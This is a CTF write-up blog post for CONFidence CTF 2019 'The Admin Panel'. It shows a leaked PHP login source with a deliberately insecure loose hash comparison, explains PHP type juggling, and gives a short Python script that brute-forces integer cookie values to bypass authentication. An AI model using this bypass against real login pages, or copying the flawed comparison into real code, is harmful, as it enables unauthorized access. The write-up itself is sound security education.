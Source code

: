 ```yaml
---
layout: post
title:  "CONFidence CTF 2019 'The Admin Panel' Writeup"
subtitle: 'Walkthrough for The Admin Panel Challenge'
date:   2019-03-16 05:05:00
tags:
- Web, type juggling
---
```


Right after iCTF, there was Confidence CTF going on by P4! I was kinda late to look into the challenges and there was hardly ~3 hours left. I went with the one which had most solves, **The Admin Panel**.
<br/><br/>

<figure class="foto-legenda">
	<img src="../assets/conf/ChalDesc.png" alt="">
</figure>

<br/>
<br/>
We were greeted with a normal directory listing page where we had two files, `login.php` & `login.php.bak`.<br/><br/>

<figure class="foto-legenda">
	<img src="../assets/conf/welcomescreen.png" alt="">
</figure>

<br/><br/>

I decided to take up as usual, `login.php`, but had the message pop up `Not authenticated.`. <br/>
<br/>
<br/>

<figure class="foto-legenda">
	<img src="../assets/conf/notauth.png" alt="">
</figure>

<br/>
<br/>

Fair enough, I downloaded the `login.php.bak` and we have the source code with us!<br/><br/>

{% highlight php %}

<?php

include '../func.php';
include '../config.php';

if (!$_COOKIE['otadmin']) {
    exit("Not authenticated.\n");
}

if (!preg_match('/^{"hash": [0-9A-Z\"]+}$/', $_COOKIE['otadmin'])) {
    echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n";
    exit();
}

$session_data = json_decode($\_COOKIE['otadmin'], true);

if ($session_data === NULL) { echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n"; exit(); }

if ($session_data['hash'] != strtoupper(MD5($cfg_pass))) {
    echo("I CAN EVEN GIVE YOU A HINT XD \n");

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }

    exit("\n");
}

display_admin();

{% endhighlight %}
<br/>
<br/>
Diving into the source code step by step, the `Not authenticated.` message comes out as the cookie, `otadmin` is not there. Okay, good enough, I decided to create a cookie named `otadmin`.

After having that moved into the page, I was greeted with the next message which was `COOKIE TAMPERING xD IM A SECURITY EXPERT`. So looking at that comparison, I understood that the cookie must have a key-value paid of `hash` as key and alphanumeric characters as value in it. And the very next line gets `$session_data` as a json decoded object. <br/>

I then decided to create a new cookie `otadmin` with value `{"hash": ""}`.

Well, that threw me the result of the next condition, which we eventually need to bypass. But without knowing what `$cfg_pass` is, it is rather bs. <br/>

As a result, the hint was nothing but <br/>
```
I CAN EVEN GIVE YOU A HINT XD 0006464640640064000646464640006400640640646400
```
<br/>
<br/>

Now we know what the hint is, what the for loop does, the interesting part was the last comparison was vulnerable to a loose comparison or rather [**type juggling**](https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf). The loose comparison would rather do something like: _**When comparing a string to a number, PHP will attempt to convert the string to a number then perform a numeric comparison**_.

<br/>
Good enough, makes it more easier not to bruteforce the md5 result and bypassing that is the only thing which is required now. From the hint, we know that the first three are `0` and hence having a value for hash in the range of 999 can do the trick that is required.

<br/>

{% highlight python %}
#Author: gokul
import requests
url = ""                                              #point to the chal location

with requests.Session as session:
    for i in range(999):
        cookies = {'otadmin':'{"hash": '+str(i)+'}'}  #passing on the cookie
        r = session.get(url, cookies = cookies)           
        if 'p4' in r.text:                            #checking for flag which starts with p4, likely to be in display_admin()
            print(r.text)
            break
{% endhighlight %}

Reach me out on [**Twitter**](https://twitter.com/gkgkrishna33) for any questions! Cheers.
